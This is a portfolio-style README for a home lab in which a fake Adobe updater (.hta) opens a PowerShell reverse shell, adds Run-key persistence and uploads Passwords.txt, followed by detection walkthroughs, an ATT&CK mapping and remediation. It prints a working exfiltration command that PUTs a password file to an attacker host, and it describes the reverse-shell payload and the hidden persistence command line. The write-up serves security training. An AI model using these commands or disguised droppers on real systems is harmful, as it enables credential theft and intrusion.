


### AdobeUpdater Intrusion Lab: Red Team Attack + Blue Team Detection v1 🛡️
---

> ⚠️ This project was designed as a proof-of-concept (PoC) to showcase my understanding of both offensive and defensive security workflows. It was specifically created to demonstrate my skills to hiring managers for roles related to SOC analysis.
> It's also part of a larger series — a more advanced version using WMI persistence and multi-stage execution is currently in the works.
---
> This lab focuses on a single attack path and corresponding detection workflow. While many techniques could have been explored, this scenario was chosen to demonstrate core red team execution and blue team triage in a clear, focused, end-to-end simulation.

---
## 🎬 Demo Video: AdobeUpdater: Red Team Attack + Blue Team Detection v1 

Please read the full write-up below first — it provides the context and technical breakdown for this demonstration.  
After that, watch the video to see the lab in action.  Click the image 👇to watch the full demo on YouTube: 
 
[](https://youtu.be/og6FGrAh7qU)


## About This Lab

This hands-on intrusion simulation demonstrates the *full attack chain* — from execution to post-exploitation — followed by detailed detection and investigation using tools like **Wireshark**, **Autoruns**, and **Process Explorer**.

I created everything from scratch:
- The **fake Adobe Updater** dropper (`.hta` with VBScript)
- Embedded **Base64-encoded PowerShell** for a reverse shell
- **Registry persistence** and stealth icon spoofing
- A custom **Python upload server** to simulate exfiltration

  
---

## 🌌 Technical Overview

This simulation uses a **fake Adobe Updater UI** (`.hta`) that deploys:

- **PowerShell reverse shell** to a remote Netcat listener  
- **Registry Run key persistence**  
- **Stealthy VBScript execution**  
- **Decoy visuals** to enhance realism  
- **Base64 encoding and realistic icon spoofing**

---
The project directory is organized as follows:

## 📁 Project Structure
```
.
├── payload/ # HTA payload and artifacts
│ ├── AdobeUpdater.hta # Main dropper with embedded VBScript and UI
│ ├── adobe.ico # Spoofed Adobe icon
│ ├── adb1.png # Decoy loading screen
│ └── .gitkeep
├── analysis/
│ └── screenshots/ # All demo screenshots 
├── README.md
```
## 🔄 How It Works
## The walkthrough is split into two perspectives:

### 💀 **Red Team:** Step-by-step attack execution

1. **User executes** the `.hta` payload mimicking a legitimate Adobe updater.
2. Payload runs an embedded VBScript, which:
 - **Launches a PowerShell reverse shell**
 - **Adds a `Run` key for persistence**
 - **Displays a fake dowonloading progress bar window to distract the user**
3. **Reverse shell is caught** by the attacker's Netcat listener.
 - **The attacker navigates the file system** 
 - **A `Password.txt` file is found and uploaded**

--- 

### 🛡️ **Blue Team:** Detection and triage workflow

After simulating the attack, I pivoted to a defender’s perspective and analyzed the intrusion using:

- **Autoruns:** Detected persistence via Registry Run key  
- **Process Explorer:** Tracked the PowerShell child process  
- **Wireshark:** Captured reverse shell TCP traffic  

#### The goal was to demonstrate how a SOC analyst might uncover and triage a stealthy but simple attack.
---

## Demo Walkthrough

### 1. Attacker Prepares for Callback and File Exfiltration 

*On the attacker’s side, two terminals are opened — one to catch a reverse shell as shown in Figure 1, and<br>
one to handle file uploads as shown in Figure 2.*
<br><sub>(Figure 1)</sub><br>
<br>
<em>In this terminal a Netcat listener is started on port 443 for the reverse shell.</em>
<br><sub>(Figure 2)</sub><br>
<br>
<em>In this terminal, the attacker starts a Python upload server on port 8080.</em>
</p>

---

### 2. Fake Adobe Updater
*The malicious shortcut on the desktop mimics a genuine Adobe software updater.*
<br><sub>(Figure 3)</sub><br>
<br> 
*When the victim clicks on the decoy updater as shown in Figure 3, a window with a fake "critical security updates" message appears.<br> 
Once the OK button is clicked the connection is made back to the Netcat listener as shown in Figure 6*
<br><sub>(Figure 4)</sub><br>
  
<br><sub>(Figure 5)</sub><br>
  
*For an added, realistic effect a fake progress bar is shown
to mask the malicious activity.*<br>

---
### 3. Payload Execution & Reverse Shell Connection Made
*In Figure 6, we can see the attacker successfully catches the reverse shell and a connection is now established from the victim’s machine back to the attacker's Netcat listener.
Next, the attacker runs the `ls` command to list the contents of the current working directory.*
<br><sub>(Figure 6)</sub><br>
<br>

### 4. Attacker Navigates the File System
*In Figure 7, the attacker begins backing out of the current directory using the `cd` command repeating `cd ..` until reaching the user's home directory.
They then run the `ls` command again and spot the Documents directory witch is there target.*
<br><sub>(Figure 7)</sub><br>
<br>

*Figure 8 shows the attacker using the `cd` command to enter the Documents directory.*
<br><sub>(Figure 8)</sub><br>
<br>

*In Figure 9, we see the attacker has successfully navigated into the Documents folder. Inside, they spot a file named Passwords.txt.*
<br><sub>(Figure 9)</sub><br>
<br>

---

### 5. Second Stage of the Attack: Uploading the File
*Now that the attacker has successfully navigated through the file system and reached the Documents directory, they’ve located the Passwords.txt file.
At this point they’re ready to begin the second stage of the attack. They’ve almost reached Step 7 of the Cyber Kill Chain — Actions on Objectives — but not quite yet.*

---
*In Figure 10, we can see the attacker preparing to use a PowerShell command with the PUT method to upload the Passwords.txt file to their Python-based upload server.*
<br><sub>(Figure 10)</sub><br>
<br>


This is the full PowerShell command to upload the `Passwords.txt` file to the attacker's Python server:
 ```powershell
powershell -c "Invoke-WebRequest -Uri http://192.168.78.129:8080/Passwords.txt -Method Put -InFile 'C:\Users\IEUser\Documents\Passwords.txt'"
# ⚠️ Make sure to change the IP address, port number, and file path to match your attack setup.
```
### Command Breakdown below:
<div align="left">
  <sub><strong>(Figure 11)</strong></sub><br>

  <table>
    <thead>
      <tr>
        <th>Component</th>
        <th>Purpose</th>
      </tr>
    </thead>
    <tbody>
      <tr>
        <td><code>powershell -c</code></td>
        <td>Runs the command within PowerShell</td>
      </tr>
      <tr>
        <td><code>Invoke-WebRequest</code></td>
        <td>Sends HTTP requests; here it’s used to upload a file</td>
      </tr>
      <tr>
        <td><code>-Uri</code></td>
        <td>The destination URL (your Python listener endpoint)</td>
      </tr>
      <tr>
        <td><code>-Method Put</code></td>
        <td>HTTP method used to upload the file</td>
      </tr>
      <tr>
        <td><code>-InFile</code></td>
        <td>Specifies the local file path to be uploaded</td>
      </tr>
    </tbody>
  </table>
</div>


*In Figure 12, we can see in the second terminal it's running the Python upload server on port 8080, and you'll notice it’s still idle. For this demo, the folder containing the Python script has been opened and placed at the bottom of the screen. The reason: if anything gets uploaded, we’ll see it appear here in real-time. As of now, there is only the Python script in the directory.*<br>
<br><sub>(Figure 12)</sub><br>
<br>

---

*Next in Figure 13, after the PowerShell command from Figure 10 is run, we get a hit — the `Passwords.txt` file is displayed in the command line output. And just like we talked about in Figure 12, the folder now shows two files, one of them being `Passwords.txt,` confirming the upload was successful.*
<br><sub>(Figure 13)</sub><br>
<br>

---
## 🛡️ Defender’s Perspective: Triaging a Compromised Windows Host

Now that we’ve followed the attack from the attackers POV  — from clicking the fake Adobe updater to catching a reverse shell and exfiltrating `Passwords.txt` — let’s switch gears and step into the defender’s shoes.

This next section walks through how security analysts can spot and respond to this kind of behavior using analysis tools such as Wireshark, Autoruns, and Process Explorer.

---

In **Figure 14**, we have a Wireshark capture that was running during the attack. In this screenshot, we can see a `PUT` request made for the `Passwords.txt` file — indicating possible data exfiltration over HTTP.
<br><sub>(Figure 14)</sub><br>
<br>

In **Figure 15**, now that we’ve confirmed a PUT request occurred, we can filter the capture to isolate it. To do this, we type the following into Wireshark’s display filter bar `http.request.method == "PUT"`
Then hit the **blue arrow** in the top-right to apply the filter.
<br><sub>(Figure 15)</sub><br>
<br>

In **Figure 16**, we see there was only one `PUT` request made, which confirms our earlier finding — the exfiltrated file was `Passwords.txt`.
<br><sub>(Figure 16)</sub><br>
<br>

Next, in **Figure 17**, if we right-click on the filtered packet and choose **Follow > HTTP Stream** (highlighted in blue). This allows us to view the entire payload of the HTTP session and validate what was transferred.
<br><sub>(Figure 17)</sub><br>
<br>

In **Figure 18**, after following the HTTP stream, we can see the full contents of the `PUT` request -- exposing exactly what the attacker exfiltrated. We also see other important details, such as the server responding with a `201 Created` status, confirming a successful upload. <br> 
The `User-Agent` header shows the upload was initiated using `PowerShell`, while the `Server` header confirms it was received by a `Python 3.11.9 SimpleHTTP server,` likely running Python’s built-in `http.server` module. An internal host sending a `PUT` request over port `8080` using non-standard tools like this should raise red flags during packet inspection.
<br><sub>(Figure 18)</sub><br>
<br>

---
### 🔍 Persistence Detection via Autoruns and Registry Analysis

In this section, we identify how the attacker achieved persistence using a registry-based autorun entry. The screenshots below walk through the detection process using Sysinternals Autoruns and the Windows Registry Editor.

---

**Figure 19** shows a suspicious autorun entry under:`HKCU\Software\Microsoft\Windows\CurrentVersion\Run`
The entry is named `AdobeTaskHelper`, but it's launching `powershell.exe` instead of a legitimate Adobe executable. This is an immediate red flag.<br>
There is no known Adobe tool that launches via PowerShell, and the naming is clearly meant to blend in with trusted vendor software.
<br><sub>(Figure 19)</sub><br>
<br>

Next, in **Figure 20** we can right-click the suspicious entry in Autoruns and choose **Jump to Entry** to check the corresponding registry location for validation.
<br><sub>(Figure 20)</sub><br>
<br>

**Figure 21** confirms the full registry key using **Regedit**. The `AdobeTaskHelper` entry executes the following command at startup:<br>`powershell.exe -ExecutionPolicy Bypass -WindowStyle Hidden -Command ...`
This PowerShell command is used to maintain persistence by silently relaunching the attacker’s reverse shell payload on system boot. Combined with the misleading name and stealthy execution, this is a textbook example of registry-based persistence via PowerShell masquerading.
<br><sub>(Figure 21)</sub><br>
<br>

---
### 🔍 Process Inspection with Process Explorer

This section highlights suspicious process behavior observed using Sysinternals Process Explorer. 

---
**Figure 22** shows a suspicious `powershell.exe` process running. Anytime we see PowerShell executing, it’s worth investigating.
<br><sub>(Figure 22)</sub><br>
<br>

**Figure 23** drills into the process properties of `powershell.exe`. The command line shows `-w hidden -nop -c`, indicating a hidden window, no profile, and an inline command, common flags used to avoid user visibility. The payload opens a `Net.Sockets.TCPClient` to `192.168.78.129:443`, hands remote input to `Invoke-Expression` (`iex`), and sends command output back to the attacker -- a classic interactive reverse shell.
<br><sub>(Figure 23)</sub><br>
<br>

**Figure 24** shows the **current directory** where this process was launched from, which is  is `C:\Users\IEUser\Downloads\Projects\Adobe_Demo_v1\`
<br><sub>(Figure 24)</sub><br>
<br>


Next, **Figure 25** shows that when we follow the path from `Figure 24,` it leads to the PowerShell process’s working directory along with the actual folder contents in File Explorer. The folder contains the Adobe files, including the shortcut named `AdobeUpdater.hta` --
which was placed on the user’s desktop. This shortcut is what the user initially interacted with, triggering the chain of events. This visually confirms how the attack was disguised as a legitimate update and how the user was tricked into executing it.
<br><sub>(Figure 25)</sub><br>
<br>

**Figure 26** shows the **TCP/IP** tab of the same process, confirming it has an active network connection to:`192.168.78.129:HTTPS`<br>This indicates that the PowerShell process is maintaining a live connection — supporting evidence of a reverse shell callback.
<br><sub>(Figure 26)</sub><br>
<br>


---


## 📃 MITRE ATT&CK Mapping

| Technique         | ID         | Description                                    |
|------------------:|:-----------|:-----------------------------------------------|
| Initial Access    | T1204.002  | User execution — malicious file (HTA)          |
| Execution         | T1059.001  | PowerShell (inline one-liner)                  |
| Persistence       | T1547.001  | Registry Run Keys / Startup Folder             |
| Defense Evasion   | T1218.005  | Mshta (proxy execution of an .hta)             |
| Command & Control | T1071      | Application Layer Protocol (custom TCP C2)     |


---

## 🔧 Remediation and Recommendations

## 🧹 Immediate Cleanup

- **Delete the following malicious files from disk:**
  - `C:\Users\IEUser\Downloads\Projects\Adobe_Demo_v1\AdobeUpdater.hta`

- **Remove registry-based persistence:**
  - Delete the Run key entry:  
    `HKCU\Software\Microsoft\Windows\CurrentVersion\Run\AdobeTaskHelper`

---

### 🔐 Credential Response

- **Passwords.txt was exfiltrated.** All credentials listed in that file must be considered compromised and changed immediately.
- Review logs to confirm there were no unauthorized logins using the compromised credentials.
- Ensure password rotation policies are enforced for both local accounts and external services.
- Investigate for signs of lateral movement or reuse of these credentials elsewhere in the environment.

---

### 🔒 System Hardening

- **Block outbound traffic** to the attacker IP: `192.168.78.129` (or any future simulation IPs).
- **Restrict execution of `.hta` and `.vbs` files** via Group Policy or application allowlisting.
- **Disable Windows Script Host (WSH)** on systems where it is not required:
 - Set the following registry key: 
   `HKLM\Software\Microsoft\Windows Script Host\Settings`
   `Enabled = 0`
 
---
## ⚠️ Known Limitations (v1)

This initial version was a basic but functional proof-of-concept, focused on UI deception and reverse shell delivery using HTA + PowerShell. While the techniques were rudimentary by design, they provided a strong foundation for the more advanced payload in development.

- ❌ Base64 encoding had reliability issues in some setups  
- ❌ No AMSI bypass or evasion layers included  
- ⚠️ Persistence was basic (registry Run key only)  

> 🚧 This project is being followed up with a more advanced version using **WMI event subscriptions**, **multi-stage payloads**, and **stealthier execution methods**.

---

## 🗋 Notes

- Tested on Windows 10 with default settings
- Avoid running on production systems
- Always use in an isolated lab environment

> ⚠️ **Disclaimer:** For educational use only. Do not deploy on unauthorized systems.

---
